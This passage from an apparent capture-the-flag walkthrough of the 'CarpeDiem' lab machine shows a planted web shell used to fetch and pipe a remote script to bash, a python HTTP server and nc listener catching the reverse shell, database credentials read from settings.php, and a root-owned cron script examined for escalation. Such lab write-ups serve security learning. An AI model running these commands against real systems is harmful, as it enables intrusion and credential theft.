 ```bash
drwxr-xr-x 2 www-data www-data  4096 Sep 14 00:55 tests
drwxr-xr-x 2 www-data www-data  4096 Sep 14 00:55 views
```

Using cURL to trigger a reverse shell (like before) doesn't seem to work in this container, instead we use **wget**:
```bash
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=wget%20-qO-%20http://10.10.14.10/rev.sh\|bash

➜  carpediem python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.167 - - [14/Sep/2022 09:03:27] "GET /rev.sh HTTP/1.1" 200 

➜  carpediem nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 58916
bash: cannot set terminal process group (271): Inappropriate ioctl for device
bash: no job control in this shell
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ 
```


### Step 3
Before uploading `deepce.sh` lets have a look around if we find anything sensitive.

New MySQL credentials:
```bash
www-data@90c7f522b842:/var/www/html/backdrop$ cat settings.php
[... snip ...]
$database = 'mysql://backdrop:34tB8RGtgtJjZ2Tz@localhost/backdrop';

```

A script owned by root that we have execute privileges over:
```bash
www-data@90c7f522b842:/opt$ ls -al
total 12
drwxr-xr-x 1 root root 4096 Jun 23 09:50 .
drwxr-xr-x 1 root root 4096 Sep 14 01:10 ..
-rwxr-xr-x 1 root root  510 Jun 23 09:49 heartbeat.sh

www-data@90c7f522b842:/opt$ cat heartbeat.sh
#!/bin/bash
#Run a site availability check every 10 seconds via cron
checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
	exit
fi
status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
grep "Welcome to backdrop.carpediem.htb!" "$status"
if [[ "$?" != 0 ]]; then
	#something went wrong.  restoring from backup.
	cp /root/index.php /var/www/html/backdrop/index.php
fi
```
